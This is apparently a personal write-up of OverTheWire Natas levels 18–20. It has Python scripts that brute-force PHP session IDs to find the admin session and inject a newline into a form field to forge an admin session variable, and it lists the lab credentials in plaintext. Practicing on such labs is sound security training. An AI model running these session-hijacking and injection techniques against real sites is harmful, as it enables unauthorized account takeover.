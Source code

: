 
2024-07-20 16:35

Source: #web  #natas 

Tags: [[PHP]]
## Natas 18 

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```python
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR

we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

## Natas19

source code is similar to natas 18 the difference is that the `phpsessid` is  encoded in hex and the username is appended to the session id before encoding the whole .
eg. `45-admin` is encoded and used as the session id 

```python
import requests
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

url = 'http://natas19.natas.labs.overthewire.org/'
session = requests.Session()

for i in range(641):
    print({"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()})

    response= session.get(url,cookies = {"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()},auth = (username,password))

    if("You are an admin" in response.text):
        print("got it", i)
        print(response.text)
        break
```
### TLDR

- we run a for loop ranging from 1 to 640 and we apply the loop in `<number>-admin` 
- where `<number>` is cycled through and the whole thing is encoded in hex 
- one of these encoded session id is gotta be the admin session id.
## Natas 20

- here 2 functions are defined namely read and write 
- `read` function 
	- checks if a file path exists corresponding to a session id if not then creates one 
	- it reads the contents from the file creating an array and then process the data bit by bit using the `explode` function
- `write` function 
	- works with the same file name as read, it uses simply writes the output from the server to a file 
Whole code is operating in a session thus we add more code to existing code

```python
import requests
username = 'natas20'
password = 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw'

url = 'http://natas20.natas.labs.overthewire.org/?debug=true'
session = requests.Session()

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#create a session id 

response= session.post(url,data={"name":"bmth\nadmin 1"},auth = (username,password))
print(response.text)
print("="*80)
#exploiting the explode functionality we add a new line and change admin to 1

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#this is just to check if we are still admin or not 
```
they're just splitting up variables line by line and with a space in between each thing we could just as easily add a new line and change whatever session variables we really wanted to

### Reference
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid